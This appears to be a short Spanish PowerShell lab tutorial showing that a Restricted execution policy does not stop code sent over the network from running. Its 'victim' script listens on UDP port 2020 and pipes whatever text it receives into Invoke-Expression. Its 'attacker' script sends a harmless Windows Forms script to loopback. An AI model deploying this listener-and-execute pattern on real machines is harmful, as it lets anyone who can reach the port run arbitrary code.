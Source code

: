 ## TRANSMITIR FORMULARIO CON POLITICA DE SEGURIDAD RESTRICTED

Usaremos el modelo [cliente servidor] (https://www.jesusninoc.com/12/29/server-and-client/)


 ACTIVAMOS LAS POLÍTICAS DE SEGURIDAD
 
```POWERSHELL
set-executionpolicy restricted 
```
Y CREAMOS EL FORMULARIO EN UN ARCHIVO .PS1 (TODO EN UNA LINEA Y SEPARAMOS LAS LINEAS CON ";")

```POWERSHELL
using assembly System.Windows.Forms;using namespace System.Windows.Forms;$form = [Form] @{Text = 'Queipo'};$button = [Button] @{Text = 'Pulsa que yo te aviso'; Dock = 'Fill'};$form.Controls.Add($button);$form.ShowDialog()
```
---------------------

EJECUTAR PRIMERO VÍCTIMA Y DESPUES ATACANTE

### VICTIMA

```POWERSHELL
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Any,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient $port
$content=$udpclient.Receive([ref]$endpoint)
$reci= [Text.Encoding]::ASCII.GetString($content)
$udpclient.Dispose()
$reci | iex
```

### ATACANTE

```POWERSHELL
$txt= get-content formulario.ps1
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Loopback,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient
$b=[Text.Encoding]::ASCII.GetBytes($txt)
$bytesSent=$udpclient.Send($b,$b.length,$endpoint)
$udpclient.Close()
```


